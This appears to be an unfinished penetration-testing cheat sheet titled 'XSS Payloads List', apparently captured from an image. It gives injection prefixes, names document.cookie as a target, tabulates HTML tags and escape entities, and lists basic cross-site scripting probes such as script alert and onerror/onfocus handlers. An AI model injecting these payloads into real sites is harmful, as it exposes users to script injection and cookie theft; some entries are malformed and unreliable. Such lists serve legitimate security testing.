# XSS Payloads List

Search Tag(s): #helpers

Note: JavaScript and HTML code snippets are case insensitive.

## Prefix

```
>
'>
">
```

## Javascript Cookie Properties

```
document.cookie
window.origin
document.cookie
```

## Detection

### HTML attributes

TODO: Fill in the rest

|Headings|Text Formats|Escaping Special Characters|
|--------|------------|---------------------------|
|`<h1>header 1</h1>`|`<i>italic text</i>`|`&` -> `&amp;`|
|`<h2>header 2</h2>`|`<em>emphasis italic text tag</em>`|`<` -> `&lt;`|
|`<h3>header 3</h3>`|`<b>bold text</b>`|`>` -> `&gt;`|
|`<h4>header 4</h4>`|`<strong>bold text</strong>`|`"` -> `&quot;`|
|`<h5>header 5</h5>`|`<small>small text</small>`|`'` -> `&#x27;`|
|`<h6>header 6</h6>`|`<sub>subscripted text</sub>`|`/` -> `&#x2F;` |
||`<sup>superscripted text</sup>`|`©` -> `&copy`|
||`<del>this text is deleted</del>`|`™` -> `&trade;`|
|||`®` -> `&reg;`|

### Javascript

- Pop-up message

```
<script>alert(1)</script>
<script>print()</script>
<img src="" onerror=alert(1)>
<svg src="" onerror=alert(1)>
<iframe src="" onerror=alert(1)>
<input autofocus onfocus="setTimeout(function() {alert(1)}, 5000);"></input><;/style<;/title<;/textarea<;/script>
```

